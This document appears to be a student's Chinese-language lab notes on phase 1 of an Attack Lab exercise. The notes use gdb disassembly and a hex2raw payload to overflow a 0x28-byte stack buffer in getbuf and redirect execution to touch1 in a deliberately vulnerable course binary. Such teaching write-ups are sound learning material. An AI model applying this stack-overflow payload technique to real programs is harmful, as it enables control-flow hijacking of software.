 # 第三周lab实验笔记
本次实验共五个任务，前三个在ctaget上，4和5在rtarget上。
一开始看这个实验一脸懵逼，看的官网的writewp大体明白了这个实验是个啥子意思

## phase_1
根据writewp上的源码，我们需要通过栈溢出控制程序流程跳转至touch1函数
test函数源码
```
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```
test函数中调用了getbuf函数，查看其反汇编代码
```
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret    
```
可以看到只需要溢出0x28的数据即可覆盖rip控制程序流程
查看touch1的地址
```
pwndbg> p touch1
$1 = {void ()} 0x4017c0 <touch1>
```
然后就是这次实验给出的工具hex2raw，我们需要通过这个工具生成字符串完成实验
创建attach.txt并在其中存入如下内容
```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 c0 17 40
```
前面这些a的十六进制表示我是拿010生成的，后面再手动补上小端存储的touch1地址
然后执行程序完成本次实验
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image1.png)
